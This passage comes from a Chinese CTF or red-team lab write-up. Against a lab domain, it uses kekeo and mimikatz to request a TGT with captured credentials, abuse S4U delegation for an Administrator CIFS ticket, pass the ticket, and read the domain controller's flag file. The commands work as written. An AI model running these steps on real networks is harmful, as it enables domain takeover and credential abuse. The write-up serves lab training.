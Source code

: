 此时，我们上传keko：

![截图](c8841264f871946363a7ed86283b92ea.png)

抓取密码凭证：

![截图](bc993db9c48a7bc30ddc69cfca67bccb.png)

利用keko创建sqlserver的TGT：

```shell
shell kekeo "tgt::ask /user:sqlserver /domain:redteam.red /password:Server12345 /ticket:administrator.kirbi" "exit"
```

使用这个票据请求域控：

```shell
shell kekeo "tgs::s4u /tgt:TGT_sqlserver@REDTEAM.RED_krbtgt~redteam.red@REDTEAM.RED.kirbi /user:Administrator@redteam.red /service:cifs/owa.redteam.red" "exit"
```

导入内存：

```shell
mimikatz kerberos::ptt TGS_Administrator@redteam.red@REDTEAM.RED_cifs~owa.redteam.red@REDTEAM.RED.kirbi
```

![截图](b320ffd3423373ba8e5c7ae0fc05769b.png)

尝试连接域控：

```shell
shell dir \\owa.redteam.red\c$\users\administrator\desktop
```

![截图](5aea39491098b05b60515925b55495c0.png)

查看flag！！！

```shell
shell type \\owa.redteam.red\c$\users\administrator\desktop\flag.txt
```

![截图](0824ba0a01414cff4c5f483824b5da01.png)

flag值为：

```markdown
flag{saulgoodman}
```
